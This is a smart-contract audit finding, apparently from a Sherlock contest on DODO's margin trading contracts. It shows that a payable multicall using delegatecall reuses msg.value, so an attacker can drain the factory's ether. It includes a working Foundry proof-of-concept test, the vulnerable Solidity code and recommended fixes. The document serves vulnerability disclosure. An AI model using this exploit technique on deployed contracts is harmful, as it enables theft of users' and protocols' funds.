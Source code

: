 0xHati

high

# Any ether in MarginTradingFactory can be drained by attacker

## Summary
Any ether in the `marginTradingFactory` can be drained by an attacker by using `multicall`. The contract has a `receive` function and a `cleanETH` function to withdraw ether to the contract owner. However by using `multicall` anyone can get the ether from the contract.

## Vulnerability Detail
The `marginTradingFactory` contract has a function `multicall` which lets the user execute multiple actions on the factory contract. One of the functions is to deposit ether in his `marginTrading` account: `depositMarginTradingETH`. This is a payable function which accepts ether, converts it to weth and deposits it into a `marginTrading` contract. 

The attacker can call the `multicall` function and send whatever amount he choses where the attacker can call `depositMarginTradingETH` multiple times until the contract doesn't have any ether left,  `msg.value` persists during `delegatecall` so he can deposit and subsequently withdraw for free.

### POC
```solidity
function testAbuseMulticall() public {
        //setup margin account for the user
        openMarginTradingDAI(user1);
        address marginTradingAddress = marginTradingFactory.getCreateMarginTradingAddress(0, 2, user1);
        setLendingPoolToken(MockERC20(address(weth)), dai);
        
        //setup initial balances
        vm.deal(user1, 10 ether);
        vm.deal(address(marginTradingFactory), 10 ether);

        //function to call with multicall
        bytes memory functionCall = abi.encodeWithSignature(
            "depositMarginTradingETH(address,bool,uint8)",
            marginTradingAddress,
            true,
            uint8(2)
        );

        vm.startPrank(user1);

        bytes[] memory data = new bytes[](2);
        data[0] = functionCall;
        data[1] = functionCall;
        //call multicall and deposit twice
        marginTradingFactory.multicall{value: 10 ether}(data);
        //withdraw all funds from the marginTrading account
        IMarginTrading(marginTradingAddress).withdrawETH(true, 20 ether, uint8(1));
        vm.stopPrank();

        assertEq(address(user1).balance, 20 ether);
    }

```

## Impact
Any ether in the contract can be stolen by an attacker.

## Code Snippet
[Link to code snippet](https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L74)
```solidity
function multicall(bytes[] calldata data) public payable returns (bytes[] memory results) {
        results = new bytes[](data.length);
        for (uint256 i = 0; i < data.length; i++) {
            (bool success, bytes memory result) = address(this).delegatecall(data[i]);

            if (!success) {
                assembly {
                    revert(add(result, 32), mload(result))
                }
            }

            results[i] = result;
        }
    }
```
```solidity
function depositMarginTradingETH(address _marginTradingAddress, bool _margin, uint8 _flag) public payable {
        require(IMarginTrading(_marginTradingAddress).user() == msg.sender, "factory:caller is not the user");
        WETH.deposit{value: msg.value}();
        WETH.transfer(_marginTradingAddress, msg.value);
        if (_margin) {
            IMarginTrading(_marginTradingAddress).lendingPoolDeposit(address(WETH), msg.value, _flag);
        }
        emit DepositMarginTradingETH(_marginTradingAddress, msg.value, _margin, _flag);
    }
```

## Tool used

Manual Review

## Recommendation
It is not clear to me why the factory contract has a `receive` function nor why it has a `cleanETH` function. If there is no real need for the factory to hold ether, the best way forward would be by removing the `receive` and `cleanETH` function. 

If there would be a reason to keep those functions, I suggest removing the payable modifier from `multicall`.